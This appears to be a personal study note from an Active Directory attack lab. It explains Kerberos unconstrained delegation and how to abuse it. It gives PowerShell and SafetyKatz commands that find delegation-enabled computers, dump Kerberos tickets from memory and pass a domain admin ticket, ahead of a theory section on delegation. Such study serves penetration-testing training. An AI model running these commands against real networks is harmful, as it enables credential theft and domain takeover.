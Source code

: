 ### Abusing Unconstrained Delegation
Discover computers with unconstrained delegation (PowerView + AD module)
```powershell
Get-DomainComputer -UnConstrained

Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

Compromise the server(s) where Unconstrained delegation is enabled.

Wait for a domain admin to connect to a service on `appsrv` then dump all of the tickets
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args sekurlsa::tickets /export 
```

Reuse the DA token with SafetyKatz
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi
```



### Theory
Kerberos Delegation allows to "reuse the end-user credentials to access
resources hosted on a different server".

Lets say there is a user that wants accesses the `Second Hop database` server through the `First Hop web server`. How will the `Second Hop database server` know which user is accessing it for authorisation? This can be done by the `First Hop web sever` impersonating/re-using the end-users credentials to access the `Second Hop database server`... EASY!

User impersonation is the goal of delegation
![[Pasted image 20250514195150.png]]

There are two types of Kerberos Delegation:
- General/Basic or `Unconstrained Delegation` - Allows the first hop(web server in our example) to request access to any service on any computer in the domain
- `Constrained Delegation` - Allows the first hop to request access only to specified services on specified computers. If Kerberos authentication is not used to authenticate to the first hop, Protocol Transition is used to transition the request to Kerberos

##### Unconstrained Delegation
Allows delegation to any service to any resource on the domain as a
user.

When unconstrained delegation is enabled, the DC places user's TGT
inside TGS. On the first hop, the TGT is extracted from TGS and stored in
LSASS. This way the server can reuse the user's TGT to access any other
resource as the user

![[Pasted image 20250514201409.png]]